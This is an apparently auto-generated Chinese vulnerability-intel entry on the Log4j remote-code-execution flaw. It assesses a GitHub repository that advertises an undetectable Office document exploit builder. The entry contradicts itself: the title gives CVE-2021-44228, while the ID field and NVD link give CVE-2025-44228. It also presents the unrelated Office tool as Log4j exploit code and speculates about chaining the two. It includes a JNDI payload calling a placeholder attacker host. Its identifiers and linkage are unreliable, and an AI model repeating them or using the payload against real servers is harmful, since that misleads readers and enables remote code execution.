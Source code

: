 ## CVE-2021-44228 - Apache Log4j RCE

**漏洞编号:** CVE-2025-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** Log4j 2.0-beta9 至 2.14.1

**利用条件:** 应用程序使用受影响的 Log4j 版本并允许攻击者控制日志消息或日志消息参数。

**POC 可用性:** 是

**投毒风险:** 30%

## 详情

根据搜索结果，CVE-2021-44228 是 Apache Log4j 中的一个严重远程代码执行漏洞。攻击者可以通过构造恶意的字符串，特别是使用 JNDI 注入，来执行任意代码。漏洞利用代码分析如下：

*   提供的代码片段包含一个 Visual Studio 解决方案文件（Office Macr Exploit v1.0.0.sln）和一个 README.md 文件，以及LICENSE和LOG文件。README.md 描述了一个名为 “Office Exploit” 的工具，该工具旨在利用 Microsoft Office 文档中的漏洞进行远程代码执行。它声称支持 CVE-2025 集成、XML payload embedding、DOC/DOCX 支持、完全无法检测 (FUD)、反沙箱检测和隐身执行。
*   README.md 文件中包含安装 Visual Studio 2022 的说明，表明该工具可能使用 .NET 或 VB.NET 开发，用于构建恶意的 Office 文档。

**有效性：**虽然提供的代码主要针对 Office 文档漏洞利用，与 Log4j 漏洞直接关联不大，但考虑到 Log4j 漏洞可以通过多种方式触发，例如通过用户输入被记录到日志中，攻击者可以使用 Log4j 漏洞将恶意代码注入到系统，然后可能利用 Office Exploit 工具创建的恶意文档进一步利用或传播恶意软件。

**投毒风险：**
*   该代码仓库的 README.md 宣称 FUD (完全无法检测) 和 Anti-Sandbox 检测功能，这本身就暗示了潜在的恶意用途。下载 Visual Studio 并构建项目可能会引入其他依赖项，从而增加供应链攻击的风险。
*   由于该项目声称利用 CVE-2025，这个时间点是未来的，可能指的是未公开或者虚构的漏洞。这可能是混淆或社会工程攻击的一部分。
*   LICENSE 是 MIT 许可证，较为宽松，不能直接判断投毒风险，但是允许任意修改和使用代码。
*   综合来看，仓库中存在一定程度的投毒风险，约30%。主要的风险点在于未公开的 CVE-2025 漏洞利用以及 FUD 的声明。

**利用方式：**

1.  **Log4j 利用：** 攻击者发送包含恶意 JNDI 查找字符串（例如 `${jndi:ldap://attacker.com/evil}`）的请求。如果应用程序使用 Log4j 记录此请求，Log4j 将尝试从 attacker.com 下载并执行恶意代码。
2.  **Office 文档漏洞利用：** 使用 Office Exploit 工具创建一个恶意的 Office 文档，其中包含利用 Office 漏洞的 payload。当用户打开此文档时，payload 将被执行，从而实现远程代码执行。
3.  **结合利用：** 攻击者可能首先通过 Log4j 漏洞在受害者系统上植入一个下载器或 dropper，然后该下载器从远程服务器下载并执行恶意的 Office 文档，或者使用 Office Exploit 工具创建的恶意文件，以此作为进一步利用的手段。

总体而言，虽然提供的代码看起来与 Log4j 漏洞没有直接关系，但考虑到其潜在的恶意用途，有必要保持警惕。

**项目地址:** [Karitosmuan/Office-Exploit-Cve2025-Xml-Doc-Docx-Rce-Builder-Fud](https://github.com/Karitosmuan/Office-Exploit-Cve2025-Xml-Doc-Docx-Rce-Builder-Fud)

**漏洞详情:** [CVE-2025-44228](https://nvd.nist.gov/vuln/detail/CVE-2025-44228)